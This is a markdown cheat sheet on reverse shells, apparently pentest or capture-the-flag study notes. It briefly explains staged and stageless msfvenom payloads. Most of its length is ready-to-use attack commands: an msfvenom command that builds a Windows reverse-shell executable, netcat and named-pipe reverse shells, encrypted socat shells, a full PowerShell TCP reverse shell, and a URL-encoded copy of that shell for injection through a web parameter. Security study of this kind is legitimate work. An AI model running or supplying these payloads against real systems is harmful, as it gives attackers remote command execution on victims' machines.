# Reverse Shells

## Links
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## MSFVENOM
#### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. 

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.


shell_reverse_tcp, This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:

shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

linux/x86/meterpreter_reverse_tcp


```
msfvenom -p <PAYLOAD> <OPTIONS>


msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

## Linux

### Sender (Victim)

reverse-shell listner (server)

    nc –lvp 4444

Simple reverse shell
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```
background the shell with Ctrl + Z, then use ``stty raw -echo; fg`` to stabilise and re-enter the shell. 


Create a reverseshell sender with namned pipe
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

#### Encrypted shell
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:

``cat shell.key shell.crt > shell.pem``

Now, when we set up our reverse shell listener, we use:

``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -``


To connect back, we would use:

``socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash``

The same technique would apply for a bind shell:

Target:

``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes``

Attacker:

``socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -``


### Listner (C&C)

Create a reverseshell listner with namned pipe
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```




## Windows

### Sender (Victim)

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Webshells
there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.